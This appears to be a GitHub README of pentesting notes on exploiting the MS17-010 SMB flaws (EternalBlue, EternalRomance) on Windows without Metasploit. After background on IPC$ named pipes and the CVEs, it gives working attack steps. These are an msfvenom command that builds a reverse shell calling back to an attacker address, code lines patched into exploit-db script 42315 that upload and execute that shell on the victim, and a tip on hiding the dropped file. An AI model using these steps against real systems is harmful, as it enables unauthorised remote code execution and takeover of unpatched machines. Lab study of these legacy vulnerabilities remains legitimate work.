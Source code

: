 # Automated Eternalblue _MS_17_010_ without metasploit : #

References:
  https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

Port No. : 445 only(and not 139)

Metasploit Modules:
1. auxiliary/admin/smb/ms17_010_command			MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
2. auxiliary/scanner/smb/smb_ms17_010			MS17-010 SMB RCE Detection
3. exploit/windows/smb/ms17_010_eternalblue		MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
4. exploit/windows/smb/ms17_010_eternalblue_win8	MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
5. exploit/windows/smb/ms17_010_psexec			MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution


IPC$:
IPC$ is a special share within Windows that is used to facilitate inter-process communication more commonly referred to as IPC. That is, it doesn’t allow one to access files or directories like other shares, but rather allows one to communicate with processes running on the remote system. Specifically, IPC$ exposes named pipes, that one can write to or read from to communicate with remote processes. Such named pipes are created when an application opens a pipe and registers it with the Windows Server service (SMB), such that it can be exposed by the IPC$ share. Any data written to such a named pipe is sent to the remote process, and conversely any output data written by the remote process can be read by a local application from the pipe. One can use such named pipes to execute specific functions, often referred to as Remote Procedure Calls (RPC) on the remote system.

  
  ## Module 3: MS-17-010 Scanner: ##
 
  Scans for CVE:
  2017-0147
  2017-0146
  2017-0148 
  2017-0145 
  2017-0144 
  2017-0143 

## Module 1 & 5: (Not Eternal Blue) => CVE-2017-0143 & CVE-2017-0146 ##


Requires named pipe and for that IPC$ share should be accessible. 
And for IPC$ to be accessible normal users credentials are required.

Reference:
http://www.ethicalpentest.com/2018/03/ms17-010-vulnerability-eternalromance-windows-10-windows-2008-r2.html
https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/

As if EternalBlue wasn't devastating enough, three more similar exploits were developed after it. EternalRomance and EternalSynergy exploit a type of confusion (CVE-2017-0143), while EternalChampion and EternalSynergy exploit a race condition (CVE-2017-0146).

These were combined into a single Metasploit module that also uses the classic psexec payload. It's considered more reliable than EternalBlue, less likely to crash the target, and works on all recent unpatched versions of Windows, up to Server 2016 and Windows 10.

The only caveat is this exploit requires a named pipe. Named pipes provide a method for running processes to communicate with one another, usually appearing as a file for other processes to attach to. The Metasploit module automatically checks for named pipes, making it pretty straightforward to use as long as a named pipe is present on the target.


## Module 3: Eternal Blue => CVE-2017-0144 ##

Exploit-db links:
https://www.exploit-db.com/exploits/42315	(More reliable but namedpipe is required).
https://www.exploit-db.com/exploits/42031	

## Exploiting Eternal Blue without Metasploit: ##

### 1. Using Exploit db-https://www.exploit-db.com/exploits/42315: ###

Download exploit from above link and also download mysmb.py from link specified at explit db and also make sure impacket is installed (install using pip)

Since namedpipe is required but it is not mandaory to specify one but IPC$ share should be accessible(if anonymous login dont allow its access then user's cred required)
By default it only pwned.txt file at root locaion of C.

(Since on my local window 7 with anonymous login IPC$ is not accessible therefore it will only work when give valid user creds: mansoor-r and 123 as password).

To get reverse shell:
generate reverse shell using msfvenom: (this will work on both 32 and 64 bit)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.53 LPORT=9898 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe

In 42315.py uncomment smb_send_file and replace it with below lines:
smb_send_file(smbConn, '/root/coaching_machine/reverse_shell.exe','C','/windows/temp/reverse_shell.exe')    #It copies reverse shell to victim machine.
service_exec(conn, r'cmd /c c:\\windows\temp\reverse_shell.exe')
#It is recommended to give garbage name to shell.exe as without migration it is not possible to delete this file from admin access cmd.

And you will recieve reverse shell on nc.

### 2. Using Exploit db-https://www.exploit-db.com/exploits/42031 : ###
 
Dont require named pipe (IPC$) and thus purely unauthenticated exploit for RCE but system crashes many times while using this exploit.

(All below payload uses exploit 42031.py but only it generate shellcode which is needed to be supplied along with this exploit).

Reference: https://root4loot.com/post/eternalblue_manual_exploit/

### Exploit : ###
self made exploit of eternal_blue: eternalblue_exploit.sh
./eternalblue_exploit.sh 
and start listner in new tab
